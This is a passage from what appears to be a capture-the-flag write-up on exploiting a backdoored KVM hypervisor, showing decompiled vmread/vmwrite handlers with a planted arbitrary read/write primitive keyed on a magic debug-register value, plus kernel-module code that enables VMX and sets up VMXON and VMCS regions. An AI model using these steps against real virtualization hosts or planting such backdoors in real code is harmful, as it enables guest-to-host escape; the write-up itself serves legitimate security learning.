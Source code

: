 From this we realized it is effectively an arbitrary read relative to the value in r15.
After reading the orignal source it became clear that this is the pointer to our VMCS (the one we just allocated in our guest), in the host's address space:
```c
static int handle_vmread(struct kvm_vcpu *vcpu)
{
    struct vmcs12 *vmcs12 = is_guest_mode(vcpu) ? get_shadow_vmcs12(vcpu)
                            : get_vmcs12(vcpu);
...
```

After a peek at the `handle_vmwrite` function:
```c
int64_t handle_vmwrite(void* arg1)
    void* rbp = arg1
    void* r12 = *(arg1 + 0x1c78)
    void* gsbase
    int64_t rax = *(gsbase + 0x28)
    ...
                    rax_8, rsi_7 = kvm_get_dr(rbp, 0)

                    if (rax_8 == 0x1337babe)
                        int64_t rax_28 = kvm_get_dr(rbp, 1)
                        int64_t rax_29
                        rax_29, rsi_7 = kvm_get_dr(rbp, 2)
                        *(r12 + (rax_28 << 3)) = rax_29
```

It became clear that this was an arbitrary write based on also relative to our VMCS based on the offset in dr1 and value in dr2.

## Hitting the Backdoor

Unfortunately hitting those handlers wasn't quite so simple.

To be able to execute the vmread/vmwrite instructions some setup is required.
Thankfully, I got some help from a teamate who is far more familiar with Intel's virtualization features than I am when figuring this part out.
The vmread and vmwrite instructions are for interacting with the "Virtual-Machine Control Structure" (VMCS), but at the moment in our VM the virtualization feature isn't enabled and we don't have a valid VMCS.

Also note that all of the virtualization instructions are privileged so the exploit code snippets in this post are part of a kernel module.

So first I enabled the VMX feature by setting the VMXE bit in cr4:
```c
    cr4 = native_read_cr4();
    cr4 |= 1ul << 13;
    native_write_cr4(cr4);
```

Next I had to create a valid VMXON region and VMCS, which is done by allocating two pages, setting the `vmcs_revision` value into the start of the page, then executing vmxon and vmptrld with the physical addresses of those pages:
```c
    vmxon_page = kzalloc(0x1000, GFP_KERNEL);
    vmptrld_page = kzalloc(0x1000, GFP_KERNEL);

    vmxon_page_pa = virt_to_phys(vmxon_page);
    vmptrld_page_pa = virt_to_phys(vmptrld_page);

    *(uint32_t *)(vmxon_page) = vmcs_revision();
    *(uint32_t *)(vmptrld_page) = vmcs_revision();

    res = vmxon(vmxon_page_pa);
    res = vmptrld(vmptrld_page_pa);
```